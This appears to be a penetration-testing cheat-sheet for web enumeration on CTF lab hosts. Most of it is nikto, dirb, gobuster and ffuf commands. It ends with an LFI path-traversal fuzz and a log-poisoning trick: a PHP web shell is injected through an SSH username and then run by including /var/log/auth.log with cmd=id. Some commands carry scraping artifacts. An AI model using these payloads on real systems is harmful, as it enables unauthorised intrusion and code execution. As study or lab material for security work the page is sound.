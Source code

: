 # HTTP and HTTPS

### Port 80 and 443

`nikto -h 10.10.10.10`

Dirb

[ `dirb http://10.10.10.228/`](http://10.10.10.228/portal/)

Dirbuster

Gobuster\
`gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u` [`http://10.10.10.237/`](http://10.10.10.237/)

`gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt dir -u` [`http://10.10.10.237/ -t 42 -x .php,.txt`](http://10.10.10.237/)

`gobuster -w /SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt vhost -u` [`http://monitors.htb`](http://monitors.htb)``\
``

To bypass if status code is 200 or 400 for all directories, use -b.\
else we can use -s to include response-codes.\
``\
`gobuster dir -u http://192.168.206.148:12380/ -w ../directory-list-2.3-medium.txt -t 32 -x .php,.txt -b 400`

FFUF\
`ffuf -w SecLis­ts/­Dis­cov­ery­/DN­S/s­ubd­oma­ins­-to­p1m­ill­ion­-50­00.txt -u` [`http:/­/un­dis­cov­ere­d.thm/`](https://cheatography.com/%22http:/undiscovered.thm/%22) `-H "­Host: FUZZ.u­ndi­sco­ver­ed.t­hm­" -fc 302`

ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u "http://192.168.120.14/secret\_information/?lang=../../../../../../../FUZZ"



For .php file, try with LFI parameters. ?file=\
\
Auth Log Bypass

```
 ssh '<?php system($_GET['cmd']); ?>'@192.168.120.170
```

[http://192.168.120.80/console/file.php?file=../../../../../var/log/auth.log\&cmd=id](http://192.168.120.80/console/file.php?file=../../../../../var/log/auth.log\&cmd=id)\
